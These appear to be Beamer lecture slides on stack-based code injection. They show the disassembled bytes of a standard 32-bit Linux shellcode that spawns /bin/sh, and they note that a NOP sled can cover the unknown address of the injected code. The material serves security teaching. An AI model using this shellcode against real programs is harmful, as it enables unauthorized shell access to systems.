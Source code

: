 \documentclass[serif,mathserif]{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Code Injection}

\begin{lstlisting}
00000000        31C0              xor eax,eax
00000002        50                push eax
00000003        682F2F7368        push dword 0x68732f2f
00000008        682F62696E        push dword 0x6e69622f
0000000D        89E3              mov ebx,esp
0000000F        50                push eax
00000010        53                push ebx
00000011        89E1              mov ecx,esp
00000013        99                cdq
00000014        B00B              mov al,0xb
00000016        CD80              int 0x80
\end{lstlisting}

\end{frame}


\begin{frame}
  \frametitle{Inject Code}
Running Code:
\\
\begin{itemize}
	\item We can not use: jump into my code instruction
	\item We do not know where exactly our code is?
\end{itemize}
\begin{center}
\includegraphics[scale=0.35]{stackff11.png}
\end{center}

\end{frame}



\begin{frame}
  \frametitle{Inject Code}
Find our code address:
\\
\begin{itemize}
	\item Guess it?! 
	\item use $nop$
\end{itemize}
\begin{center}
\includegraphics[scale=0.35]{stackff12.png}
\end{center}

\end{frame}

\begin{frame}
  \frametitle{Questions}
  \begin{center}
  Questions?
  \end{center}
\end{frame}
\end{document}
